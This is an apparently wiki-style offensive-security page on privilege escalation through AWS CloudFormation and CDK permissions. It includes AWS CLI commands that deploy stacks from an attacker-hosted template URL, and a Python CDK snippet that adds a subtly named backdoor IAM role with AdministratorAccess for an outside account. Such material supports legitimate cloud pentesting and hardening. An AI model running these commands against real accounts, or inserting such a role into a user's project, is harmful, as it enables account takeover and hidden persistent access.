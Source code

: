 # AWS - Cloudformation Privesc

## cloudformation

For more information about cloudformation check:

[[../../aws-services/aws-cloudformation-and-codestar-enum.md]]

### `iam:PassRole`, `cloudformation:CreateStack`

An attacker with these permissions **can escalate privileges** by crafting a **CloudFormation stack** with a custom template, hosted on their server, to **execute actions under the permissions of a specified role:**

```bash
aws cloudformation create-stack --stack-name <stack-name> \
    --template-url http://attacker.com/attackers.template \
    --role-arn <arn-role>
```

In the following page you have an **exploitation example** with the additional permission **`cloudformation:DescribeStacks`**:

[[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md]]

**Potential Impact:** Privesc to the cloudformation service role specified.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In this case you can a**buse an existing cloudformation stack** to update it and escalate privileges as in the previous scenario:

```bash
aws cloudformation update-stack \
    --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role specified.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

If you have this permission but **no `iam:PassRole`** you can still **update the stacks** used and abuse the **IAM Roles they have already attached**. Check the previous section for exploit example (just don't indicate any role in the update).

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

An attacker with permissions to **pass a role and create & execute a ChangeSet** can **create/update a new cloudformation stack abuse the cloudformation service roles** just like with the CreateStack or UpdateStack.

The following exploit is a **variation of the**[ **CreateStack one**](#iam-passrole-cloudformation-createstack) using the **ChangeSet permissions** to create a stack.

```bash
aws cloudformation create-change-set \
    --stack-name privesc \
    --change-set-name privesc \
    --change-set-type CREATE \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::947247140022:role/CloudFormationAdmin \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
    --change-set-name privesc \
    --stack-name privesc \
    --region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
    --stack-name privesc \
    --region eu-west-1
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `ChangeSet` permissions** over a stack and perform the attack.

**Potential Impact:** Privesc to cloudformation service roles.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

This is like the previous method without passing **IAM roles**, so you can just **abuse already attached ones**, just modify the parameter:

```
--change-set-type UPDATE
```

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

An attacker could abuse these permissions to create/update StackSets to abuse arbitrary cloudformation roles.

**Potential Impact:** Privesc to cloudformation service roles.

### `cloudformation:UpdateStackSet`

An attacker could abuse this permission without the passRole permission to update StackSets to abuse the attached cloudformation roles.

**Potential Impact:** Privesc to the attached cloudformation roles.

## AWS CDK

The AWS cdk is a toolkit for allowing users to define their infrastructure-as-code in languages they are already familiar with, as well as easily re-using sections. The CDK then converts the high-level code (ie python) into Cloudformation templates (yaml or json).

In order to use the CDK, an administrative user must first bootstrap the account, which create several IAM roles, including the *exec role*, which has \*/\* permissions. These roles follow the naming structure `cdk-<qualifier>-<name>-<account-id>-<region>`. Bootstrapping must be done once per region per account.

By default, CDK users do not have access to list the roles needed to use the CDK, meaning that you will need to determine them manually. If you compromise a developers machine or some CI/CD node, these roles can can be assumed to grant yourself the ability to deploy CFN templates, using the `cfn-exec` role to allow CFN to deploy any resources, fully compromising the account.

### Determining the role names

If you have `cloudformation:DescribeStacks`, the roles are defined in a stack called `CDKToolkit`, and you can pull the names from there.

If you're on a machine that has been used to build and deploy CDK projects, you can pull them from `cdk.out/manafest.json` in the projects root directory.

You can also make a good guess on what they are. `qualifier` is a string added to the roles allowing for multiple instance of the CDK bootstrap to be deployed at once, however the default value is hard-coded to `hnb659fds`. 

```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```

### Adding malicious code to the project source

If you can write to the project source, but cannot deploy it yourself (for example, the developer deploys the code via CI/CD, not the local machine), you can still compromise the environment by adding malicious resources to the stack. The following adds an IAM role that can be assumed by an attacker account to a python CDK project.

```python
class CdkTestStack(Stack):
    def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
        super().__init__(scope, construct_id, **kwargs)

        # ----------
        # Some existing code.....
        # ----------

        role = iam.Role(
            self,
            "cdk-backup-role", # Role name, make it something subtle
            assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
            managed_policies=[
                iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
            ],
        )
```

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

